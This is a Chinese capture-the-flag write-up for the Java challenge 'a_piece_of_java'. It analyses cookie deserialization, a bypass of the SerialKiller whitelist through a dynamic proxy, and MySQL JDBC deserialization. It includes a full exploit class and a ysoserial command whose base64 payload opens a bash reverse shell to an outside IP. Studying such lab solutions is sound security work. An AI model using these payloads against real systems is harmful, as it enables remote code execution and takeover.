




## a_piece_of_java

考点：

​        1.序列化入口构造

​        2.Mysql JDBC反序列化

### 题目简析

先查看maincontroller

```java
package gdufs.challenge.web.controller;

import gdufs.challenge.web.model.Info;
import gdufs.challenge.web.model.UserInfo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServletResponse;
import org.nibblesec.tools.SerialKiller;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.CookieValue;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class MainController {
    public MainController() {
    }

    @GetMapping({"/index"})
    public String index(@CookieValue(value = "data",required = false) String cookieData) {
        return cookieData != null && !cookieData.equals("") ? "redirect:/hello" : "index";
    }

    @PostMapping({"/index"})
    public String index(@RequestParam("username") String username, @RequestParam("password") String password, HttpServletResponse response) {
        UserInfo userinfo = new UserInfo();
        userinfo.setUsername(username);
        userinfo.setPassword(password);
        Cookie cookie = new Cookie("data", this.serialize(userinfo));
        cookie.setMaxAge(2592000);
        response.addCookie(cookie);
        return "redirect:/hello";
    }

    @GetMapping({"/hello"})
    public String hello(@CookieValue(value = "data",required = false) String cookieData, Model model) {
        if (cookieData != null && !cookieData.equals("")) {
            Info info = (Info)this.deserialize(cookieData);
            if (info != null) {
                model.addAttribute("info", info.getAllInfo());
            }

            return "hello";
        } else {
            return "redirect:/index";
        }
    }

    private String serialize(Object obj) {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        try {
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(obj);
            oos.close();
        } catch (Exception var4) {
            var4.printStackTrace();
            return null;
        }

        return new String(Base64.getEncoder().encode(baos.toByteArray()));
    }

    private Object deserialize(String base64data) {
        ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64data));

        try {
            ObjectInputStream ois = new SerialKiller(bais, "serialkiller.conf");
            Object obj = ois.readObject();
            ois.close();
            return obj;
        } catch (Exception var5) {
            var5.printStackTrace();
            return null;
        }
    }
}
```

很明显我们可以控制cookiedata进行反序列化，查看一下依赖，发现`commons-collections-3.2.1`，是否可以直接打呢？显然不行，这里存在serialkiller，它是反序列化类白/黑名单校验的jar包

```xml
<whitelist>
        <regexp>gdufs\..*</regexp>
        <regexp>java\.lang\..*</regexp>
    </whitelist>
```

这里只允许反序列化gduf和java.lang下的类，也就是说直接反序列化行不通

我们继续分析代码，看到Databaseinfo



这里connect方法能够触发jdbc连接从而实现mysql客户端反序列化，怎样调用呢？

我们继续看到InfoInvocationHandler



这里可以很容易联想到动态代理，`invoke`方法在动态代理当中会自动执行，执行后会调用`checkAllInfo()`，而该方法中又调用了connection方法，由此利用链闭合。

### 解题

我们需要做的事情很简单，构造一个datainfo类再将其代理即可

```java
import gdufs.challenge.web.invocation.InfoInvocationHandler;
import gdufs.challenge.web.model.DatabaseInfo;
import gdufs.challenge.web.model.Info;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Proxy;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws IOException {
        //设置好DatabaseInfo类的相关属性以实现jdbc反序列化
        DatabaseInfo databaseInfo = new DatabaseInfo();
        databaseInfo.setHost("1.117.171.248");
        databaseInfo.setPort("9015");
        databaseInfo.setUsername("snakin");
        databaseInfo.setPassword("snakin&allowLoadLocalInfile=true&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor");

        //将DataBaseInfo实例，封装进Proxy类 使用动态代理
        ClassLoader classLoader = databaseInfo.getClass().getClassLoader();
        Class[] interfaces = databaseInfo.getClass().getInterfaces();
        InfoInvocationHandler infoInvocationHandler = new InfoInvocationHandler(databaseInfo);
        Info proxy = (Info) Proxy.newProxyInstance(classLoader,interfaces,infoInvocationHandler);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(proxy);
        oos.flush();
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
    }
}
```

构造反弹shell

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjExNy4xNzEuMjQ4LzM5NTQzIDA+JjE=}|{base64,-d}|{bash,-i}" > payload
```

之后发包



成功拿下




参考：

https://www.crisprx.top/archives/386#2020_a_piece_of_java